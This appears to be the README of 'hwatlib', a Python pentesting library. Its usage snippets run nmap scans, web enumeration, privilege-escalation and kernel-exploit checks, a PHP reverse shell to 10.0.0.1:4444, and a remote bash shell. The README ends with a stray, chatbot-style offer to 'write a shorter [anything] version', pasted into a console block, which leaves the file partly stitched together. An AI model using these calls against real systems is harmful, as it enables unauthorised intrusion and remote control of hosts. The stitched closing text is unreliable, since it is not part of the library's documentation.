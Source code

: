 # hwatlib

A practical pentesting and exploitation library with wrappers for recon, web enumeration, reverse shells, and privilege escalation.

---

To install, run:

```bash
pip3 install hwatlib
```

## Basic Usage:

```python3
from hwatlib import *

# Recon example
recon.init("example.com", add_to_hosts=True)
recon.nmap_scan()
recon.banner_grab()

# Web enumeration
web.fetch_all("http://example.com")

# Exploit (reverse shell)
exploit.php_reverse_shell("10.0.0.1", 4444)
```

## Privilege Escalation

```python3
from hwatlib import *

# Run various local privesc checks
privesc.run_checks()
privesc.enumerate_sudo()
privesc.enumerate_cron()
privesc.kernel_exploits()
```

## Custom IO / Remote Exploitation

```python3
from hwatlib import *

# Connect to remote host
remote = exploit.connect_remote("10.0.0.1", 31337)
remote.run_shell("bash")
```

## Web Exploitation

```python3
from hwatlib import *

# Fetchers and enumeration
web.fetch_headers("http://example.com")
web.fetch_forms("http://example.com/login")
web.fetch_js("http://example.com")
```

Hwatlib is under continuous development and more features for pentesting, recon, exploitation, and post-exploitation will be added.

```console
If you want, I can also **write a shorter [anything] version** like hwatlib’s style that highlights **any concept of your choice**. Do you want me to do that?
```
